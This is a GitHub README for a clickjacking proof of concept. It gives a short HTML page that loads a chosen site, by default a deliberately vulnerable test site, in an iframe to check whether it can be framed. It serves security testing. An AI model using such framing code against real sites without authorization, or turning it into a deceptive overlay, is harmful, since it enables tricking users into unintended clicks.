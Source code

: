 # Clickjacking Vulnerability PoC 

**Description:**
This repository hosts a professional Proof of Concept (PoC) showcasing the Clickjacking vulnerability in web applications. Clickjacking represents a significant security concern, allowing unauthorized manipulation of user interactions and data access.

- Save code with .html extension.
- Change with your URL want to test.
  
```html 
<html>
<title>Click Jacking</title>
<meta name="author" content="m14r41">
<head></head>
<body>
    <font color="white" size="30">
        <h2 style="font-weight: bold; color: black">Clickjacking Vulnerability Poc</h2>
        <p style="font-weight: bold; color: rgb(146, 83, 83)">This vulnerability presents a security risk, allowing for potential manipulation</br> of user interactions and unauthorized data access without user consent.</p>
        <iframe src="http://testphp.vulnweb.com/" width="70%" height="70%"></iframe>
</body>
</html>
```

---

![image](https://github.com/m14r41/Clickjacking-Poc/assets/95265573/42fd8f35-bd40-480e-87a1-fafc8392ab21)

## Online Poc
![image](https://github.com/user-attachments/assets/96a93f3b-0a38-48b8-97e2-ccf5aeb27cfc)


**Features:**

- A clear title explaining the repository's purpose.
- A concise explanation of Clickjacking vulnerability.
- Inclusion of an `<iframe>` element demonstrating a common Clickjacking vector.

**By:** [m14r41](https://github.com/m14r41)
